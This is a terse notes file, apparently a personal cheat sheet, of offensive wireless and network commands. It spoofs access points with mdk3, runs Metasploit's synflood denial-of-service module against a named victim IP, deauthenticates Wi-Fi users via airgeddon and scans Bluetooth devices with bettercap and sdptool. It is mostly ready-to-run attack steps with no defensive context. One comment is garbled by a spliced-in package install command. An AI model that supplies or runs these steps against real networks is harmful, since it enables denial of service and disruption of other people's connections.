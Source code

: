 [make abunch of differnt APS] 
* sudo mdk3 wlx0013eff5483f b -c 1 -f ./data/data.lst ## update data.txt with spooffed ap 
* airodump-ng wlx0013eff5483f -c 11 ## use to monitor local APS 

[TCP FLOOD] 
* sudo nmap -p1-64580 192.168.50.111
* service postgresql start 
* msfconsole

* search synflood 
* use auxiliary/dos/tcp/synflood
* show options 
* set RHOST 192.168.50.111
[RHOST = VICTIM, LHOST = CLIENT]



[DEAUTH USERS WHEN NOT ON ROUTER] 
git clone https://github.com/v1s1t0r1sh3r3/airgeddon.git
cd airgeddon
sudo bash airgeddon.sh
------------------------------------------------------ [BLUETOOTHNESS ------------------------------------------------------

 https://null-byte.wonderhowto.com/how-to/bt-recon-snoop-bluetooth-devices-using-kali-linux-0165049/

---------------[BLUETOOTH MANAGER]---------------
[bluetoothctl] -h
[bluetoothctl] scan on
[btscanner] # launches GUI interface 
[bettercap] 

* ble.recon on  ## returns the range and dsudo apt install ./discord.debevice name of enabled BT devices 
* ble.recon off 
* ble.show 
* ble.enum MAC_ADDRESS  # PROVIDES MORE INFO ON BLUETOOTH DEV 


hciconfig -h ## bluetooth context manager, similar to wifi manager (help menu)
* man hciconfig 
* man hcitool 
* man sdptool  ## allows queries on bluetooth servers --> permeessions / avail services 
* man btscanner 

* hciconfig dev_name up 
* sdptool browse MAC_ADDRESS 
* btscanner # launches GUI interface 


------------------------------------------------------ FRAMEWORK - NMAP SCANNING 802.11  ------------------------------------------------------

[nMap] = CLI [zenmap] = GUI 

[scripts]
ls -al /usr/share/nmap/scripts/ 

